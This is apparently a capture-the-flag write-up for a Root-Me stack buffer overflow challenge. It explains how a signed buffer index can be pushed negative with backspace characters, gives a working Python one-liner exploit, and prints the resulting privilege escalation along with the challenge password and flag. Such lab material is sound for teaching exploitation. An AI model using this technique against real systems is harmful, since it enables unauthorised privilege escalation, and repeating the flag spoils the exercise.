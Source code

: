 # ELF x86 - Stack buffer overflow basic 3 
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-3
```

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch16@challenge02.root-me.org   
Username	app-systeme-ch16
Password	app-systeme-ch16
```
The source code is available and it's pretty clear that one can control the index of the buffer (_count_) at each character entered.<br>
The problem is that the buffer is growing upwards (to higher addresses), while the stack grows downwards (to lower addresses). So we'll not be able to overwrite the _check_ variable just like that.<br>
Luckily, _count_ is a signed integer, which means it can be negative. So, because we can increase the count (using any character which is not '\x08') and **decrease** it (using the '\x08' character). Therefore, let's try to decrease count to -4 so _buffer[count]_ will point to _check_ (hopefully).

```sh
app-systeme-ch16@challenge02:~$ cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16
Enter your name: id
uid=1116(app-systeme-ch16) gid=1116(app-systeme-ch16) euid=1216(app-systeme-ch16-cracked) groups=1216(app-systeme-ch16-cracked),100(users),1116(app-systeme-ch16)
cat .passwd
Sm4shM3ify0uC4n

```
